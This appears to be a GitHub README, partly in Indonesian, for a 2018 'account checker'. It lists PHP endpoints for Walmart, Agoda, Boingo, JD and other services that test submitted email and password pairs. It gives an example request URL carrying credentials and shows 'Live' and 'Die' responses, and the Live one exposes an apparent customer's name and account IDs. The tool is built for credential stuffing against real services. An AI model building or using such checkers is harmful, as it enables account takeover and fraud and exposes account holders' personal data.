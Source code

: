 # api account Checker 2018

Link : http://nblh.site/api/

isi file api
agoda.php
boingo.php
c9.php
indomog.php
jd.php
utm.php
walmart.php



Tambahkan ?email= (required). Email &pwd= (required). Password
Example : htts://nblh.site/walmart.php?email=nblh.ayu@gmail.com&pwd=cintaku


Live : {"status":"OK","payload":{"firstName":"Robyn","lastName":"Williams","cid":"f225c12d-ebcb-6772-e044-001517f43a86","omsCustomerId":"83251640","customerId":"f225c12d-ebcb-6772-e044-001517f43a86","subscribed":false}}

Die : {"code":"user_auth_fail","error":{"alertType":"error","message":"Your password and email do not match. Please try again or Reset Your Password."}}
